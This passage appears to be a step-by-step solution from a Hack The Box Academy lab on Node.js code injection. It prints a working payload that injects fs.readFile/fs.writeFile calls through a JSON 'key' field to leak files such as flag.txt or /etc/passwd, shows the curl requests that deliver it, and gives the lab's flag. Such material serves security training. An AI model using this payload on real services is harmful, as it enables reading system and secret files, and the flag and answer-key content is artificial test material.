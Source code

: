 To test this code/payload, students need to write it inside a file (named `testingPayload.js` in here) and run it with `node testingPayload.js`, to notice that whatever was specified in `fs.readFile` will be written to the file name specified in `fs.writeFile` (students can change "flag.txt" to `/etc/passwd` for example when testing, otherwise, they can create a file named "flag.txt" and make it have some data).

Now, instead of students injecting `console.log`, they need to inject the reading and writing files payload (shown above), making sure that they escape all quotes with `jq` as performed for the previous payload:

Code: shell

```shell
echo '"); var fs = require("fs"); fs.readFile("flag.txt", function(err, data) {fs.writeFile("denied.html", data, function (err) {if (err) throw err;});});//' | jq -aR .
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-hz24gns7ly]─[~]
└──╼ [★]$ echo '"); var fs = require("fs"); fs.readFile("flag.txt", function(err, data) {fs.writeFile("denied.html", data, function (err) {if (err) throw err;});});//' | jq -aR .

"\"); var fs = require(\"fs\"); fs.readFile(\"flag.txt\", function(err, data) {fs.writeFile(\"denied.html\", data, function (err) {if (err) throw err;});});//"
```

Subsequently, students need to send the payload to the spawned target machine as the value for the `key` JSON variable:

Code: shell

```shell
curl http://STMIP:STMPO/admin -X POST -d '{"key":"\"); var fs = require(\"fs\"); fs.readFile(\"flag.txt\", function(err, data) {fs.writeFile(\"denied.html\", data, function (err) {if (err) throw err;});});//"'}
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-hz24gns7ly]─[~]
└──╼ [★]$ curl http://159.65.63.151:30161/admin -X POST -d '{"key":"\"); var fs = require(\"fs\"); fs.readFile(\"flag.txt\", function(err, data) {fs.writeFile(\"denied.html\", data, function (err) {if (err) throw err;});});//"'}
```

At last, students need to send a request to the `/admin` endpoint using `cURL` to attain the flag `HTB{c0d3_1nj3c710n_l34d5_70_c0mm4nd_1nj3c710n!}`:

Code: shell

```shell
curl http://STMIP:STMPO/admin
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-hz24gns7ly]─[~]
└──╼ [★]$ curl http://159.65.63.151:30161/admin

HTB{c0d3_1nj3c710n_l34d5_70_c0mm4nd_1nj3c710n!}
```
